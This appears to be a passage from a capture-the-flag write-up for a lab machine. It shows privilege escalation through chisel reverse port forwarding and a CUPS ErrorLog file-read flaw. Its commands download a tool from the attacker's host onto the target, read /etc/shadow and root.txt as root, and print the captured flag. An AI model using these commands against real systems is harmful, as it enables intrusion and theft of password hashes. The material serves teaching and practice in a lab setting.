We can see what process are open.
```bash
$ netstat -tupln
``` 

```bash
$ netstat -nat
```


We found that the 631 port is open. This port is used by Internet Printing Protocol by default. Let's install chisel to do port forwarding.

https://github.com/jpillora/chisel
```bash
$ git clone https://github.com/jpillora/chisel
$ cd chisel && go build -ldflags="-s -w"
$ sudo ./chisel server -p 8000 --reverse
```
Copy chisel to the server and issue below command on reverse shell session to do a port forward.



To install Chisel on the machine target we need to open a python server an in the target machine we need to go to the tmp directory to install there Chisel
```bash
$ python3 -m http.server 80
```


Now we download chisel from our machine.
```bash
$ wget http://10.10.14.15/chisel
$ chmod +x chisel
```





Now we connect the target machine to our reverse server


```bash
$ ./chisel client 10.10.14.15:8000 R:631:127.0.0.1:631
```


Browsing to localhost:631 on our machine shows CUPS administration page.



CUPS versions less than 1.6.2 has a known local file read vulnerability. Navigate to Administration .



By clicking on **View Error Log**, the contents of the `error.log` file are displayed. Since the CUPS server runs as **root** by default, it is possible to achieve **arbitrary file read** by modifying the path of the `ErrorLog` file. We can change the `ErrorLog` path using the `cupsctl
```bash
S cupsctl ErrorLog="/etc/shadow"
```


Now sending a cURL request to View Error Log reveals the contents of /etc/shadow file.
```bash
$ curl http://localhost:631/admin/log/error_log?
```


Now if we do the following we will can get the root flag.
```bash
$ cupsctl ErrorLog=/root/root.txt
$ curl -s -X GET http://localhost:631/admin/log/error_log
```

```bash
Root Flag → 23c9e1651c2a52ba8c25a3c505a3e73e
```

[Back](README.md)